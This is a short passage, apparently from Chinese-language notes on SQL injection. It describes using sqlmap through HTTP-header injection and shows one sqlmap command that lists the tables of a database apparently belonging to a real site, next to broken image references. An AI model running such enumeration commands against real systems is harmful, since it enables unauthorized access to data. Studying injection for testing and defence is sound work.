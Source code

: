 使用sqlmap对http头部进行注入，指定注入点，将内容保存到记事本中
![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675321782240-c38de719-8e01-4346-b77f-b6513614ab68.png)

```sql
sqlmap -r C:\Users\simid\Desktop\p.txt --batch --tables -D d6_s_iproute_cn
```
